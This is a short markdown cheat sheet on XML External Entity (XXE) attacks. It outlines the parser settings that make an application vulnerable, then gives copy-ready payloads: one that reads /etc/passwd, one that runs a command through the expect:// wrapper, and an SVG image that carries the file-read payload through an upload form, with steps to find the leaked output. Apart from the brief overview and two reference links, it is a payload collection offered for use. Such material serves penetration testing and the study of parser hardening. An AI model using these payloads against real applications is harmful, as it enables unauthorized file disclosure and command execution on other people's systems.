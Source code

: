 An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.

# Overview
- The application parses XML documents.
- Tainted data is allowed within the system identifier portion of the entity, within the document type declaration (DTD).
- The XML processor is configured to validate and process the DTD.
- The XML processor is configured to resolve external entities within the DTD.

# Payloads
## LFI
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<foo>&xxe;</foo>

OR

<!DOCTYPE foo [<!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
```
## RCE
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>
```

# XXE via Image File Upload

1. Create an SVG file with a content such as:  
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
2. Upload the SVG
3. Look for where the SVG would be displayed and the output should be embedded into the image.

# References
- [https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing#](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing#)
- [https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-advanced-xxe-vulnerabilities](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-advanced-xxe-vulnerabilities)